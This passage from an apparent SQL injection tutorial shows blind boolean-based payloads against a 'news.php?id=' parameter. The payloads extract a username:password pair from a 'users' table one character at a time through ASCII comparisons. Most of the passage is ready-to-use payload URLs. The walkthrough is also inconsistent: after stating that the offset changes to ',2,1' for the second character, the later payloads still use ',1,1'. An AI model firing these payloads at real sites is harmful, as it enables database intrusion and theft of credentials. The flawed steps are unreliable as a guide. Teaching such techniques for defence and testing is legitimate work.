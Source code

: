 Once again, we get TRUE, so we continue incrementing.

```html
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>98
```

We get TRUE again, so we continue.

```html
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>99
```

We get FALSE! We have determined that the first character in the username is char(99). Using an ASCII converter, we can easily understand that char(99) is the letter 'c'.

We will now proceed to the second character.

```html
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),2,1))>99
```

**NOTE:** To proceed to the second character, we have changed ",1,1" to ",2,1".

```html
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>99
```

As before, if we get TRUE, we must continue incrementing.

```html
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>107
```

We get FALSE, so let's try a lower number.

```html
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>104
```

We get TRUE, so let's try a higher number.

```html
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>105
```

Finally, we get FALSE! We have determined that the second character is char(105). Again, using the ASCII converter, we can easily understand that char(105) is the letter "i".

The most challenging part of this methodology is the time required to retrieve the complete username or any other string you wish to find.

* * *

## Out-of-band SQL Injections
